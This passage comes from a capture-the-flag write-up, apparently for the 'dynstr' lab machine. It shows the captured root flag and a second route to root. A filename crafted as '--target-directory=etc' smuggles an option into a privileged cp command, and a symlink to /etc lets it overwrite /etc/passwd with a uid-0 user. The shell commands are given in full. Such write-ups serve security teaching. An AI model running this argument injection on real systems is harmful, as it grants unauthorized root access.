 

And the flag:



    bash-5.0# cat /root/root.txt
    5dd46220************************



#### --target-directory

The `--target-directory` flag is also a way to get root. My first
thought was to write an SSH key to `/root/.ssh`, but that didn't work
(turns out that `/root/.ssh` doesn't exist). Still, I can overwrite
`/etc/passwd`. I'll need four files.

First I need a modified copy of the `passwd` file with my user included:



    bindmgr@dynstr:/tmp/tmp.fyyGsVJY8c$ cd $(mktemp -d)
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ cp /etc/passwd .
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ openssl passwd -1 0xdf
    $1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ echo 'oxdf:$1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1:0:0:pwned:/root:/bin/bash' >> passwd



The oxdf user is now uid and gid 0, which makes it root. And while
passwords are typically hashed and stored in `/etc/shadow`, they are
still handled find from the `passwd` file.

Second, I need a `.version` file:



    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ echo 1000 > .version



Third, I need the `--target-directory` flag as a file:



    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ touch -- --target-directory=etc



Were I using this flag in a legit `cp` command, I would just say
`--target-directory=/etc`, but since I'm injecting it as a filename, and
filenames can't include `/`, I'll have to point to `etc` in the local
directory.

The forth file is a simlink from `./etc` to `/etc`:



    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ ln -s /etc



That leaves the directory like:


